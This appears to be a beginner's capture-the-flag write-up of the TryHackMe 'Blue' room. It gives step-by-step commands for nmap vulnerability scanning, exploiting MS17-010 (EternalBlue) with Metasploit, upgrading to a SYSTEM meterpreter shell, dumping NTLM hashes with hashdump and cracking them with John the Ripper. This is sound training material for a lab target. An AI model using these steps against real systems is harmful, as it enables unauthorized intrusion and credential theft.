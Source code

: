```yaml
---
title: "Eternal Blue"
author: "daniboomberger"
date: 2020-10-25 18:13:44 +0530
categories: [TryHackMe,Hacktivity]
tags: [thm, metasploit]
math: true
image: /assets/img/thm_blue/eternal_blue.png 
---
```


# Eternal Blue
> Author: daniboomberger
> Date: 12.10.2020

## What is Eternal Blue?
> Eternal Blue is Vulnerability could lead to allowing the attacker to do a remote code execution. The attacker would send a sepcially crafted message to SMBv1 Server. SMB stands for Server Message Block, which is a communication protocol for providing shared access to files, printer and serial ports between nodes on a network. The Vulnerability was foud by the NSA (National Security Agency).
(Information Resources: Microsoft: https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2017/ms17-010
                        Wikipedia: https://en.wikipedia.org/wiki/Server_Message_Block)

## Recon

> **Scan the machine.**
> - `nmap -sC -sV <IP_ADDRESS>`
> - `-sC` does mean the same as `--script=default`
> - `-sV` Probe open ports to determine service/version info
> - you will get a output file (nmap.txt), which can be read
>
> **How many ports are open with a port number under 1000?**
> - `nmap -p0-1000 <IP_ADDRESS>`
> - `p` specify port (or port range)
> - The output of nmap was three ports are open under this range
>
> **What is this machine vulnerable to?**
> - `nmap --script vuln <IP_ADDRESS>`
> - It scans the host for vulnerabilities
> - It will show the information of a vulnerability called `ms17-010` the so called eternal blue exploit
> - INFO: I ran these specific nmap commands to have some sort of training (nmap training)...

## Gain Access

> **Start Metasploit**
> - `msfconsole -q`
> - `-q` this prevents the banner to appear
> - Will open metasploit
>
> **Find the exploitation code we will run against the machine**
> - `search ms17-010`
> - This will let you search the exploit in metasploit (search term we got from nmap vuln scan)
> - There will appear some exploits after the search term the correct one will be
> - `exploit/windows/smb/ms17_010_eternalblue` this is the one we are looking for
> - `use exploit/windows/smb/ms17_010_eternalblue`
> - That is to use the exploit that we've searched
> - You could also read the id in the search and run `use <ID>`
>
> **Show options and set the one required value. What is the name of this value?**
> - `show options`
> - It will show a list of options and if they are required and also show there value.
> - You have to search the option that is required, but has no value set `RHOSTS`
> - `set RHOSTS <IP_ADDRESS>`
> - This will set `RHOSTS` to the IP Address of our target
> 
> **Run the exploit**
> - `run` or `exploit`
> - One of these two commands will run the exploit (ms17-010)
> - After it's successfully finished there will appear a DOS Shell
> - If everything is the same you have to put the shell in the background `CTRL+Z`

## Escalate

> **Research online how to convert a shell to meterpreter shell in metasploit. Post Module Name?**
> - I searched with the term `shell to meterpreter` (I know big brain me)
> - So I found this path in the World Wide Web `post/multi/manage/shell_to_meterpreter`
> - And No I don't go back and provide the link, because I wrote this writeup after I finished the Room
> 
> **Select this (use MODULE_PATH). Show options, what option are we required to change?**
> - `show options`
> - This will provide us a options list with all options
> - Search the required field that has no Value in it `SESSION`
>
> **Set the required option, you may need to list all of the sessions to find your target here.**
> - `sessions`
> - That command shows us a list of all current sessions
> - `set SESSION <ID>`
> - Set the <ID> to ID of the Windows shell (ID will probably be 1)
> 
> **Run! If this doesn't work, try completing the exploit from the previous task once more.**
> - `run` or `exploit`
> - Will run this `post/multi/manage/shell_to_meterpreter`
> - `getsystem`
> - If you run this command your return should be `NT AUTHORITY\SYSTEM`
> - `shell`
> - This command would open the DOS shell and in this shell you could run the command `whoami` to check
> 
> **List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column)**
>
> **Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time**

## Cracking

> **Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?**
> - `hashdump`
> - Command will provide you with users and there password hashes
> - Three Users will appear (Administrator, Guest and Jon) `Jon` it is
> 
> **Copy this password hash to a file and research how to crack it. What is the cracked password?**
> - `john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt password.txt`
> - Windows stores hashes in NTLM so thats why we use `--format=NT`
> - The `--wordlist=/usr/share/wordlists/rockyou.txt` is to provide rockyou.txt (your path could be different)
> - And password.txt is a created file by with the hashed password inside

## Find flags!
> **Search the flags in the Windows System**
> - `search -f flag*.txt`
> - A magic command from meterpreter that will provide you with all three flags and there path

## Conclusion
> I really liked the box and it was fun to work around with metasploit. I'm actually a beginner and did not start long ago and it was totally good explained. As a tip, always try to understand what you are doing and not only copy paste the commands.
